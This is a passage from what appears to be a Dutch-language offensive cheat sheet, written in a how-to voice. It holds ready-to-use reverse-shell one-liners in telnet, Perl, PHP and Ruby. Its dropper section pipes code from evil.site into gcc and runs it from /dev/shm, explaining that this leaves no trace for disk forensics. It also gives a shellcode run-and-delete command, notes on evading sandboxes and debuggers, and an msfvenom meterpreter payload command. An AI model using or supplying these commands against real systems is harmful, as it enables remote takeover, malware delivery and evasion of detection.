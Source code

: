     mknod bp p; telnet < ip > < port > 0<bp | /bin/bash 1>bp

### Perl

    perl -e 'use Socket;$i="< ip >";$p=< port >;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### [PHP](https://www.php.net)

    php -r '$sock=fsockopen("< ip >",< port >);exec("/bin/sh -i <&3 >&3 2>&3");'

### Ruby ###

    ruby -rsocket -e'f=TCPSocket.open("< ip >",<port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## Droppers ##
Soms heb je een specifiek stukje malware wat je op een systeem wilt introduceren. Hiervoor is het niet altijd perse noodzakelijk om een uitgebreide dropper te schrijven. Het kan soms ook al voldoende zijn om met zo min mogelijk sporen datgene wat je wilt introduceren te introduceren. Denk hierbij bijvoorbeeld aan een zelf geschreven backdoor.

Een leuk voorbeeld hiervan is de volgende:

    curl -s https://evil.site/code.c | gcc -o /dev/shm/.a -x c -; /dev/shm/.a; rm /dev/shm/.a

Je download via curl de source code die je nodig hebt, compiled deze met GCC en laat de uitvoer hiervan naar [/dev/shm](https://www.cyberciti.biz/tips/what-is-devshm-and-its-practical-usage.html) toeschrijven. Aangezien /dev/shm memory mapped is, bestaat deze map eigenlijk alleen in het werkgeheugen van de computer. Na ene reboot is alle inhoud hiervan verdwenen. Mocht iemand een image maken van het filesystem dan zal hij de malware dus ook niet tegenkomen.

Een uitgebreidere dropper zal overigens rekening houden met de omgeving waarin hij werkt. Hij zal controleren of er sprake is van een malware analyse platform, hij in een VM draait of dat er debugging tools actief zijn. Mocht dit allemaal het geval zijn dan zal hij zijn acties niet voortzetten.

Mocht je een handmatige plaatsing als methode willen gebruiken kan je gebruik maken van een code als:

    echo -e "< shellcode >" > /dev/shm/.p; chmod +x /dev/shm/.p;/dev/shm/.p & rm /dev/shm/.p

## MSFVenom ##
Msfvenom is de payloadgenerator van het Metasploit Framework. Met deze payloadgenerator kan je eenvoudig code genereren die diverse soorten backdoors, reverse shells of andere toepassingen. Een handige manier om een payload te genereren om in buffer overflows te gebruiken is:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=< ip > LPORT=< port > -f hex

De "-f hex" zorgt er in dit geval voor dat de payload direct hexadecimaal te kopieren geplakt word. Deze variant kan je ook makkelijker gebruiken voor het direct in een executable patchen van een shell.

### Linux ###
